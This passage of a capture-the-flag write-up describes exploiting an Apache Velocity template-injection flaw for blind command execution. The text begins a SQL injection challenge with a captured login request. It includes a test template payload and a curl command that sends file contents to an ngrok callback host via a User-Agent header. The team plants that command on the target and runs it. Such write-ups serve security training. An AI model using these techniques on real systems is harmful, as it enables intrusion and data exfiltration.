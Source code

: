 - Velocity v1.7 is vulnerable to SSTI attack
- References
    - https://antgarsil.github.io/posts/velocity/
    - https://iwconnect.com/apache-velocity-server-side-template-injection/
- Based on the PoC above we ran the test case

```
#set ($run=1 + 1) $run
```

![](https://i.imgur.com/AltGQxG.png)

- RCE was blind because we had no output of the commands so we used `ngrok` for getting a callback to confirm if the payload was working
- Then we tried reverse shells but none of them worked for some reason so we thought to simplify we can make it download a file
- And since the command output was not visible we used web requests to exfiltrate the flag by setting custom user agent in curl command

```
> cat pwn

curl "https://f084-116-74-26-67.ngrok-free.app/special" -H "User-Agent: $(cat /flag*)"
```

![](https://i.imgur.com/8itLO2W.png)

- After sending the file we send a second request to run it using : `sh pwn`


![](https://i.imgur.com/sWeNay4.png)



- Web logs in ngrok dashboard :


![](https://i.imgur.com/o1yA2db.png)

---

## KORP Terminal
> Solved by : Legend, thewhiteh4t

- Challenge presents us with a login page
- Testing SQL injection shows that it is vulnerable

![](https://i.imgur.com/6LIGKIQ.png)

- POST request from burpsuite : 

```
    POST / HTTP/1.1
    Host: 94.237.58.148:47562
    Content-Length: 66
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://94.237.58.148:47562
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.57 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://94.237.58.148:47562
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: close
    
    username=a&password=a
```